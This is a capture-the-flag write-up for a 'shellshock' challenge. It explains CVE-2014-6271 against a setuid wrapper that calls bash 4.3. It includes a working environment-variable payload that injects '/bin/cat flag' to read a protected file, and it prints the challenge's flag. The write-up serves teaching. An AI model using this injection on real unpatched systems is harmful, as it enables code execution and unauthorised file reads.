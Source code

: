 # Shellshock

**Description**:

## Source code:

```C
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

### Solution:

The executable file set effective user to help us "cat" **flag** file.

With the hints, i try "googling" about "bash shock" and "shellshock", it relates to the **CVE-2014-6271**

A quote in this CVE:

```
GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment
```

Reference about CVE : https://www.cve.org/CVERecord?id=CVE-2014-6271

Check the version of bash: `bash --version`, we got: 

```
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

So this **bash** shell is vulnerable. Try the payload in CVE: 

```bash
shellshock@pwnable:~$ env x='() { :;}; echo vulnerable' ./shellshock
vulnerable
shock_me
```
So it's worked. Find 'cat' path by **which** command and embed our command: `env x='() { :;}; /bin/cat flag' ./shellshock`

Flag: **only if I knew CVE-2014-6271 ten years ago..!!**
